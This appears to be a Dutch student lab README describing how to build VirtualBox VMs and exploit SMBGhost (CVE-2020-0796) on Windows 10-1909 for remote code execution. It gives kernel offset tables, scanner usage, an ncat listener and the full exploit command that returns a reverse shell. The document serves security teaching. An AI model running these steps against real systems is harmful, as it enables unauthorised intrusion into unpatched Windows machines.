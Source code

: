 # Handleiding NPE 

SMBGhost Vulnerability  
CVE-2020-0796
-----------------------------
Doel: Remote Excecution   
Target: Windows 10-1909   
Aanval: Kali Linux  
-----------------------------
Team:
- Demi De Fré   
- Abdul Rehman Shafaquet    
- Arthur Neirynck  

### Algemeen
Alle informatie en documentatie is beschikbaar op onze github repo:
[Github team](https://github.com/abdulnsh/cybersecurity_vr_opdracht).

## Deployment stappenplan

### Stap 1: Downloaden ISO & VDI
* Download het .vdi bestand voor de [Kali Linux](https://www.osboxes.org/kali-linux/) VM.
* Download het .ISO bestand voor de [Windows 10-1909](https://archive.org/download/win-10-1909-english-x-64) VM.  

### Stap 2: Aanpassen script naar juiste pad
* Open beidde scripts.
* Verander in `windows1909.sh` de variabele `ISO_PATH` naar het juiste pad waar de .ISO is opgeslagen op jouw systeem.
* Verander in `kali.sh` de variabele `VDI` naar het juiste pad waar de vdi is opgeslagen op jouw systeem.
  
### Stap 3: Vboxmanage aanmaken VM's 
* Open een command prompt naar keuze.
* Navigeer naar de map waar de script's zich in bevinden.
* Run het bash script `./kali.sh` om de Kali Linux VM aan te maken.
* Run het bash script `./windwos1909.sh` om de Windows VM aan te maken.

### Stap 4: Inloggen op de VM's
* Kali inloggegevens (default)
* username: osboxes
* wachtwoord: osboxes.org
* Bij de windows zijn er geen inloggegevens nodig.


## Cheatsheet aanval

### IP-tabel

| VM              | IP Address   |
| ----------------| ------------ |
| Windows 10-1909 | 192.168.1.17 |
| Kali Linux VM   | 192.168.1.20 |

Ip adressen kunnen veranderen (best checken)

## Inleiding

Onze gebruikte bronnen: 
- [RCE-script](https://github.com/jamf/CVE-2020-0796-RCE-POC/tree/master)
- [Vulnerability Scanner](https://github.com/ButrintKomoni/cve-2020-0796)
- [Extra](https://github.com/jiansiting/CVE-2020-0796-Scanner) (niet nodig, ter info)

### Offsets informatie en uitleg
Voor elke versie van Windows 10 hebben we eerst hun offsets nodig.   
Offsets zijn specifieke geheugenadressen binnen bepaalde DLL's of system modules op een Windows-machine. Deze adressen worden gebruikt door het Python-script [SMBLeedingGhost.py](https://github.com/abdulnsh/cybersecurity_vr_opdracht/blob/main/aanval_script/rce/SMBleedingGhost.py) om specifieke functies of gegevens in het geheugen te benaderen en te manipuleren, wat nodig is voor het uitvoeren van de exploit.

[calculate_target_offsets.bat](https://github.com/abdulnsh/cybersecurity_vr_opdracht/blob/main/aanval_script/rce/calc_target_offsets.bat) is een script dat die offsets kan berekenen en die gelden voor elke Windows 10 die dezelfde versie runt. Hier zijn enkele offset-waarden: (ter info)

| Windows 10 (Version 1909) Builds | V10.0.18363.418 | V10.0.18363.535 - V10.0.18363.628 | V10.0.18363.693 | V10.0.18363.752 | V10.0.18363.365 |
| -------------------------------- | --------------- | --------------------------------- | --------------- | --------------- | --------------- |
| srvnet!SrvNetWskConnDispatch     | 0x2D170         | 0x2D170                           | 0x2D170         | 0x2D170         | 0x2D170         |
| srvnet!imp_IoSizeofWorkItem      | 0x32210         | 0x32210                           | 0x32210         | 0x32210         | 0x32210         |
| srvnet!imp_RtlCopyUnicodeString  | 0x32288         | 0x32288                           | 0x32288         | 0x32288         | 0x32288         |
| nt!IoSizeofWorkItem              | 0x12C380        | 0x12C400                          | 0x6D7A0         | 0x12C410        | 0x12C370        |
| nt!MiGetPteAddress               | 0xBADC8         | 0xBA9F8                           | 0xF1D28         | 0xBA968         | 0xBAFA8         |

Voor onze versie (18363.418) hebben we de volgende nodig :

* 'srvnet!SrvNetWskConnDispatch': 0x2D170,   
=> Deze offset wijst bijvoorbeeld naar een functie in de srvnet module die wordt gebruikt voor het dispatchen van netwerkverbindingen. Het offsetadres, in dit geval 0x2D170, geeft de locatie aan van deze functie in het geheugen
* 'srvnet!imp_IoSizeofWorkItem': 0x32210,
* 'srvnet!imp_RtlCopyUnicodeString': 0x32288,
* 'nt!IoSizeofWorkItem': 0x12C370,
* 'nt!MiGetPteAddress': 0xBAFA8

Deze offsets zijn van cruciaal belang voor het script om de juiste functies en gegevens te vinden en te manipuleren voor het uitvoeren van de exploit.

### Stap 1: Git clone op Kali Linux 
* Voor de makkelijke werking is het handig om de volgende repo's te clonen.
* Clone de volgende github repository in de Desktop :

1. `cd Desktop`
2. `git clone https://github.com/ButrintKomoni/cve-2020-0796` (scanner)
3. `git clone https://github.com/jamf/CVE-2020-0796-RCE-POC/tree/master` (RCE exploit)
```
┌──(osboxes㉿osboxes)-[~/Desktop]
└─$ tree
.
├── CVE-2020-0796-RCE-POC
│   ├── README.md
│   ├── SMBleedingGhost.py              - > dit is onze main script voor RCE
│   ├── calc_target_offsets.bat
│   ├── demo.gif
│   ├── smbghost_kshellcode_x64.asm
│   └── tools
│       ├── cdb.exe
│       ├── dbghelp.dll
│       ├── dumpbin.exe
│       ├── link.exe
│       ├── msvcp140.dll
│       ├── symsrv.dll
│       ├── tbbmalloc.dll
│       ├── vcruntime140.dll
│       └── vcruntime140_1.dll
└── cve-2020-0796
    ├── README.md
    └── cve-2020-0796-scanner.py            -> dit is onze scanner

4 directories, 16 files
```

### Stap 2: Vulnerability check
* We controleren eerst of de target (Windows 10-1909) vulnerable is met een [python scanner script](https://github.com/abdulnsh/cybersecurity_vr_opdracht/blob/main/aanval_script/scanner/cve-2020-0796-scanner.py).  
* Parameter = ip van target
```
┌──(osboxes㉿osboxes)-[~/Desktop/cve-2020-0796]
└─$ python3 cve-2020-0796-scanner.py 192.168.1.17
Vulnerable
```

### Stap 3: Remote excecution uitvoeren
* Open een terminal op de Kali Linux en voer de volgende commando's uit.
* `ncat -lvp <port>` : Dit zal onze toegang zijn naar onze windows (dit kan ncat -lvp 1234 zijn)
* `SMBleedingGhost.py <target_ip> <reverse_shell_ip> <reverse_shell_port>`  
=>`target_ip` = 192.168.1.17    
=>`reverse_shell_ip` en `reverse_shell_port`= ip address en poort waarop ncat luistert.
* Het commando ziet er dus als volgt uit: `python3 SMBleedingGhost.py 192.168.1.17 192.168.1.20 1234`

### Stap 4: Resultaat
* Na een tijdje zal de ncat terminal waarop er geluisterd wordt, veranderen naar een Windows 10 shell.
* Nu heb je vanop afstand toegang, via een cmd, tot de target en kan je willekeurige code uitvoeren.

![alt text](images/image-2.png)

![alt text](images/image-1.png)

![alt text](images/image-3.png)










